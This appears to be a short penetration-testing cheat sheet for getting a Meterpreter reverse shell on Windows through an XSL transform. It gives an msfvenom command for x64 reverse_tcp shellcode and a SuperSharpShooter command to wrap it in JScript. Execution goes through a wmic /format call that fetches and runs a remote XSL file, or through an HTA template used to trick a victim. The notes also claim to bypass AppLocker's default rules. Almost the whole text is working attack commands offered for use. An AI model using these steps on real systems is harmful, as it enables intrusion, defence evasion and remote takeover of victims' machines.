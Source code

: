 # XSL Transform

Can be combined with JScript code (SuperSharpShooter) to get a meterpreter shell.

> [!CAUTION]
> Bypasses default AppLocker Rules.
> We can use 64bit shellcode.

### Create shellcode:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt`

### Create JScript using SuperSharpShooter:

- `python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test`

### Execution

1. Option one: Embed the JS content to the XSL template, and on victim, run: `wmic process get /format:"http://192.168.0.1/test.xsl"`

2. Option two: use the HTA template to trick the victim to execute the XSL payload.
